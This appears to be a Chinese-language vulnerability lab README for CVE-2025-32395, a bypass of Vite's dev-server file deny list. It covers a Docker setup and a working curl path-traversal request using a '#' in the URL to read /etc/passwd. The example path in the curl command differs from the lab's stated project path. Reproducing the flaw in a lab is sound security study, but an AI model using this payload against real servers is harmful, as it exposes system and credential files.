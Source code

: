 # Vite开发服务器任意文件读取漏洞绕过（CVE-2025-32395）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.6, 6.1.5, 6.0.15, 5.4.18 和 4.5.13版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL中通过不合法 url `/@fs/{{project_path}}/#/../../../../../../etc/passwd`，攻击者可以读取文件系统上的任意文件。

此漏洞发生的原因是，在请求处理过程中 url path 中的不合法字符 `#` 在不同位置的处理不同，导致安全检查被绕过。

这个漏洞是[CVE-2025-31486](../CVE-2025-31486/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-32395>

## 环境搭建

执行以下命令启动Vite 6.2.5开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

靶场中的 project_path 为：`/usr/src/`，可以通过访问 `/@fs/etc/passwd` 从响应中获取

![](1.png)

下一步通过访问`/@fs/{{project_path}}/#/../../../../../etc/passwd`，你就可以绕过这个限制并获取文件内容：

```
curl --request-target /@fs/Users/doggy/Desktop/vite-project/#/../../../../../etc/passwd http://localhost:5173
```

这个请求将会返回`/etc/passwd`文件的内容：

![](2.png)

> 注意：`curl` 直接输入 url 的情况下会去除 url 中不合法的 `#` 字符
>
> 再注： Burp 处理 url 中不合法的 `#` 字符也有问题

